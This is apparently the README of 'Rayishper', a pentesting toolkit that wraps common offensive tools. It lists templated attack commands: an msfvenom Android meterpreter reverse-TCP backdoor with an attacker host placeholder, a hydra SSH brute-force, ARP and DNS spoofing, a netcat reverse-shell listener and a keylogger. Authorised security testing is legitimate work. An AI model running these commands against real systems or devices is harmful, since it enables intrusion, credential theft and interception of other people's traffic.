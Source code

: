 # Rayishper Pentesting Toolkit

Rayishper is a customizable and automated toolkit designed for cybersecurity enthusiasts and professionals. Originally inspired by manual note-taking on cybersecurity tasks, Rayishper automates a variety of common pentesting activities to streamline your workflow.

## Table of Contents

- [Introduction](#introduction)
- [Features](#features)
- [Installation](#installation)
- [Dependencies](#dependencies)
- [Usage](#usage)
- [Commands Overview](#commands-overview)
- [License](#license)

## Introduction

Rayishper started as a simple note-taking practice to assist with various cybersecurity tasks. It has now evolved into an automated toolkit that can perform a wide range of pentesting activities such as password cracking, network sniffing, social engineering, and more.

## Features

- **Password Cracking:** Automate brute-force attacks using tools like John the Ripper and aircrack-ng.
- **Network Attacks:** Perform ARP spoofing, DNS spoofing, port scanning, and packet sniffing.
- **Payload Generation:** Create custom payloads for Android devices using Metasploit.
- **Social Engineering:** Launch social engineering attacks using the SET toolkit.
- **File and Directory Management:** Automate common file and directory operations like viewing, deleting, and scanning.
- **Script Automation:** Convert repetitive manual tasks into automated scripts.

## Installation

Clone the Rayishper repository:

```bash
git clone https://github.com/your-repo/rayishper.git
```
```bash
git clone [https://github.com/your-repo/rayishper.git] (https://github.com/your-repo/rayishper.git)
cd rayishper
```

## Make the script executable:
chmod +x rayishper.py

## Install the required dependencies:
sudo apt-get update
sudo apt-get install python3 python3-pip metasploit-framework nmap hydra tcpdump aircrack-ng john setoolkit
Ensure that all tools used in the script are correctly installed and accessible in your PATH.

## Dependencies: 
The Rayishper script relies on the following tools and libraries:

Python 3: The core programming language used in the script.
Metasploit-Framework: For payload generation, reverse shell listeners, and exploitation.
nmap: For network scanning and discovery.
Hydra: For brute-forcing SSH logins.
Tcpdump: For packet sniffing and network analysis.
Aircrack-ng: For wireless network cracking.
John-the-Ripper: For password cracking.
Social-Engineering-Toolkit-(SET): For social engineering attacks.

## Usage
## To run Rayishper:
[./rayishper.py](./rayishper.py)

## Main Menu
When you start the script, you'll be prompted with the following options:

Hello Neo, what's the magic word?: Type "red pill" to access the main menu.
Main Menu Options: Choose from various pentesting actions such as deploying keyloggers, scanning networks, or generating payloads.
Commands Overview
Below is a summary of the main commands used within Rayishper:

## VF685 Hack
Description: Automate hacking a specific VF685 target.
Command: python3 VF685.py

## Keylogger Deployment
Description: Start a keylogger that logs keystrokes to a file.
Command: python3 keylog.py

## Payload Creation
Description: Generate a custom Android payload using Metasploit.
Command: msfvenom -p android/meterpreter/reverse_tcp LHOST={lhost} LPORT={lport} R> {location}/{Backdoor_name}

## SSH Brute-Force
Description: Perform a brute-force attack on SSH login.
Command: hydra -l {username} -P {wordlist} ssh://{target_ip}

## Network Scanning
Description: Scan a target IP for open ports and services.
Command: nmap -sV {target_ip}

## ARP Spoofing
Description: Perform ARP spoofing to intercept traffic.
Command: sudo arpspoof -i eth0 -t {target_ip} -r {gateway_ip}

## Reverse Shell Listener
Description: Start a netcat listener for reverse shells.
Command: nc -lvnp {lport}

## DNS Spoofing
Description: Spoof DNS responses on a network.
Command: sudo dnsspoof

## License
This project is open-source and available under the MIT License.
